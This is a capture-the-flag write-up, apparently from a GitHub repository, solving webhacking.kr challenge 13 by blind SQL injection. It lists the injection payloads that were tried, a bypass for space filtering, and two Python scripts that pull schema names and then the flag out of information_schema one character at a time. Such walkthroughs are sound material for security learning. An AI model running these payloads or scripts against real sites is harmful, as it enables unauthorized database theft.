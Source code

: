 Problem13
===========   

This problem is in webhacking.kr.   
URL: <https://webhacking.kr/challenge/web-10//>   
 
If you enter the URL, you can see the below photo.   
      
<img src="./image/1.png"/> 
    
This page informs that you should use SQL Injection to get the Flag.   
Then, I tried to enter zero.   

<img src="./image/2.png"/> 
    
Next, I tried to enter one.   

<img src="./image/3.png"/>   
     
we can confirm that the result is changed by the input.   
If you enter a non-one, the result will be zero.   
Through this, we can consider that <strong>Blind SQL Injection</strong> has to be used this problem to solve.   

Therefore, I tried to attack the Blind SQL Injection.   
    
```    
https://webhacking.kr/challenge/web-10/index.php?no=if(length(database())like(7),1,0)   
union, 0' or 1=1#, 0' or 1=1--, etc ...  
```   
    
But, the union, space, and some characters were all encoded and could not be attempted.    
Then, I found out that Blind SQL Injection will be done by trying as below.    
     
<img src="./image/5.png"/>   
    
https://webhacking.kr/challenge/web-10/index.php?no=(0)or(1)    
    
Through this, I was confident and wrote the Query Statement.    

## Supplementary Explanation (See only those who don't know about DB)  
    
``` 
mysql> select schema_name from information_schema.schemata; (= show databases;) 
```    
    
<img src="./image/6.png"/>    
    
The database named "information_schema" have a diverse informations.   
As you can see in the picture above, we will test specific situation in the columns table of the information_scema database.  
In Information_scema database, the schemata table contains information such as schema_name and table_name.   
In addition, the columns table has table_schema, table_name, and columnn_name.   

```   
mysql> select min(concat(table_schema," ", table_name," ", column_name)) from information_schema.columns;   
```    

<img src="./image/7.png"/>   

This query statement shows the first result information_schema.column table among the combined results of table_schema, table_name, and columnn_name.   
   
```    
mysql> select max(concat(table_schema," ", table_name," ", column_name)) from information_schema.columns;   
```   
     
<img src="./image/8.png"/>    
    
This query statement shows the end result information_schema.column table among the combined results of table_schema, table_name, and columnn_name.    
    
#### In other words, Since the limit is not available for protm13, it is necessary to run Blind SQL injection using max, min.    

## Solution
    
### First, Database Name, Table Name, Column Name   

```   
import requests 

headers = {'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) \AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.117'}
cookies = {'PHPSESSID':'Your Cookie'} 

def HttpRequest():
    # Find out (Database Name, Table Name, Column Name)
    result = ""
    for i in range(1,40): 
        check = False
        for j in range(48, 128):  # 0~9, a-z, A-Z, etc..
            url = 'https://webhacking.kr/challenge/web-10/?no=ord(substr((select(min(concat(table_schema,00,table_name,00,column_name)))from(information_schema.columns)),{},1))in({})'.format(i,j)
            res = requests.get(url, headers=headers, cookies=cookies) 
            if '<td>1</td>' in res.text: 
                result += chr(j)
                check = True
                break 
        if check == False: 
            break 
    #print(result) 
    arr = result.split("0")
    print("Database Name: {}".format(arr[0])) 
    print("Table Name: {}".format(arr[1]))
    print("Column Name: {}".format(arr[2]))
```   
    
Then, In concatenation, 00 is input to distinguish from each result (because spaces are encoded).    
This work will show the result. ("DB Name, Table Name, Column Name")    
After finishing the working, you can get the flag.    

#### DB Name: chall13
#### Table Name: flag_ab733768
#### Column Name: flag_3a55b31d   

### Second, Blind SQL Injection (Get Flag)     
     
``` 
    #Get Flag 

    result = "" 
    for i in range(1,40): 
        check = False
        for j in range(48,128): 
            url = 'https://webhacking.kr/challenge/web-10/?no=ord(substr((select(max(flag_3a55b31d))from(flag_ab733768)),{},1))in({})'.format(i,j)
            res = requests.get(url,headers=headers, cookies=cookies)
            if '<td>1</td>' in res.text:
                result += chr(j) 
                check = True
                break 
        if check == False: 
            break
    
    print("Flag: {}".format(result))
```

Then, I tried to use min function to get the flag.  
As a result, Flag was shown like below photo. 
         
<img src="./image/9.png"/>   
    
But, the flag is an incorrect, so I tried to use max function to get the other flag.   
As a result, Flag was shown like below photo.   
    
<img src="./image/10.png"/>    
     
In conclusion, we can know the flag.   
    
#### Flag: FLAG{challenge13gummyclear}   
    
<img src="./image/11.png"/>   
     
